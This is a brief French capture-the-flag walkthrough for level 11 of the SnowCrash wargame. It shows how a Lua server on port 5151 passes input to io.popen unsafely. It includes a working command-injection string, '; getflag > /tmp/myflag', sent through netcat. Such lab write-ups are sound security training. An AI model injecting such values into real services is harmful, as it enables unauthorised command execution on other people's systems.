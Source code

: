 # Level11

Le script lua présent sur le home est un serveur servi sur le port 5151, qui éxécute une fonction non sécurisé de lua, à savoir `io.popen`.

Nous tentons une connexion avec netcat et entrons une injection simple avec la string `; getflag > /tmp/myflag`

```bash
level11@SnowCrash:~$ nc 127.0.0.1 5151
Password: ; getflag > /tmp/myflag
Erf nope..
```

Nous obtenons le flag du niveau suivant:

```bash
level11@SnowCrash:~$ cat /tmp/myflag
Check flag.Here is your token : XXXXXXXXXXXXXXXXXXXXXXXXX
```